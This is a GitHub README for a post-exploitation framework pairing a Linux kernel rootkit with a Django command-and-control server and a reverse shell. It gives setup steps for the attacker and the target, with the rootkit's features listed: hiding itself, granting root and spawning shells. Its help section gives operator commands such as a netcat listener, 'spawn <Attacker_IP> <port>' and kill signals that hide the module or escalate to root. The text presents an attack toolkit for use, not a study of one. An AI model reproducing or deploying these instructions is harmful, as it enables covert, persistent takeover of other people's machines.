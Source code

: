 # mobcc

Mob CC is a post-exploitation framework containing a Linux kernel rootkit, C2 server, and Reverse shell with network scanning capabilities.

---

## Setup:
## Attacking side:
  - Download and install Django in your attacking system. 'pip install Django'
  - Download the mobserver directory. You can delete the database file (i.e., db.sqlite3)
  - Change the directory to mobserver ( cd /path/to/mobserver/ ) and delete all migration directories from the app directory.

  ### Setup the database:
    python3 ./manage.py makemigrations
    python3 ./manage.py migrate

  ### Run server:
    python3 ./manage.py runserver <IP>:<port>

#### Note:
  - You can modify the IP address of the attacking machine.
  - If you wish to modify 'mob_client.py' you need to convert mob_client.py into a base64 string.
    `base64 mob_client.py`
  - Copy the base64 string and paste it in the place of the default string in 'mob.c'.
  
## Target Side:
  - Download the 'mob.c', 'make', and 'ftrace_helper.h' files and build the module using the make command (Make sure of the kernel version of the target system).  
  - Install the kernel module (mob.ko) using the insmod command. (This step should be done after the C&C server runs on the attacking machine)

  `sudo insmod mob.ko`

  - If everything is setup correctly (including the IP address) then after installing the rootkit you will get your target device name in the device list in home page.

---

## Usage:
  - Open the C&C server on your browser.
  - If you have already installed the rootkit on the target side then there will be your target device name in device list.
  - Select device and connect.
  - Send commands and recieve responses. You can check the help page for listed additional features.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer_helper.h is a helping module trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide themselves from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor, which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by auto-collecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and receive responses from the target system via reverse shell.
  - Provide a list of every compromised system's commands and responses.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Screenshots:
  ## Home Page
  ![Home Page](/images/mobcc_home.png)

  ## Send Commands
  ![Send Commands](/images/connect_mob_client.png)

  ## Scan Network
  ![Scan Network](/images/scanning_network.png)

  ## Spawn Shell
  ![Spawn Shell](/images/spawn_newshell.png)

---

# Note:
  - Note that if you kill the reverse shell process, you must install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help:
  - To spawn a new shell from a different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using a reverse shell-like above. 'kill -64 1'

---
